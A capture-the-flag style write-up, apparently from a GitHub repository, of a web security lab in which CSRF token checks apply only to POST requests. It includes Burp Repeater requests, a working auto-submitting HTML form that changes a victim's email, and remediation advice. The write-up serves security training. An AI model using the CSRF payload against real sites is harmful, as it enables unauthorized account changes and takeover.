





# CSRF Where Token Validation Depends on Request Method

## Lab Information

**Lab Name:** CSRF where token validation depends on request method

**Category:** Cross-Site Request Forgery (CSRF)

**Difficulty:** Practitioner

**Status:** Solved

---

## Objective

The application attempts to protect the email change functionality using a CSRF token. However, token validation is only enforced for specific HTTP methods.

The objective is to bypass the CSRF protection and change the victim's email address using a crafted exploit hosted on the exploit server.

---

## Vulnerability Description

The application validates the CSRF token for POST requests but fails to validate it when the request method is changed to GET.

An attacker can therefore craft a malicious page that issues a GET request to the vulnerable endpoint and changes the victim's email address without requiring a valid CSRF token.

---

## Steps to Reproduce

### Step 1: Capture the Email Change Request

1. Log in using the provided credentials:

```text
Username: wiener
Password: peter
```

2. Navigate to the account page.

3. Change the email address.

4. Capture the resulting request using Burp Suite.

### Screenshot



---

### Step 2: Verify CSRF Protection

1. Send the captured request to Burp Repeater.

2. Modify the value of the CSRF token.

Example:

```http
POST /my-account/change-email HTTP/2

csrf=invalidtoken
email=test@example.com
```

3. Send the request.

4. Observe that the request is rejected.

### Screenshot



---

### Step 3: Change Request Method

1. In Burp Repeater, convert the request from POST to GET.

Example:

```http
GET /my-account/change-email?email=attacker@evil.com HTTP/2
```

2. Remove the CSRF parameter.

3. Send the request.

4. Observe that the email address is updated successfully.

### Screenshot



---

### Step 4: Create CSRF Proof of Concept

Host the following exploit on the exploit server:

```html
<html>
<body>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>

<script>
document.forms[0].submit();
</script>

</body>
</html>
```

### Screenshot



---

### Step 5: Deliver the Exploit

1. Store the exploit on the exploit server.
2. Deliver the exploit to the victim.
3. The victim's email address is changed automatically.
4. The lab is marked as solved.

### Screenshot



---

## Impact

An attacker can bypass CSRF protection entirely by using a different HTTP method than the one protected by the application.

Successful exploitation allows unauthorized actions to be performed on behalf of authenticated users, including modification of sensitive account information.

---

## Root Cause

The application performs CSRF token validation only for POST requests while allowing the same state-changing functionality through GET requests.

This inconsistent validation creates a bypass that renders the CSRF protection ineffective.

---

## Remediation

1. Enforce CSRF validation for all state-changing operations.
2. Do not allow sensitive actions through GET requests.
3. Validate CSRF tokens regardless of request method.
4. Use SameSite cookie protections.
5. Follow the principle that GET requests should be idempotent and should never modify application state.

---

## Conclusion

The lab demonstrates how incomplete CSRF protection can be bypassed when validation depends on the HTTP request method. By converting a protected POST request into an unprotected GET request, an attacker can perform unauthorized actions on behalf of authenticated users.
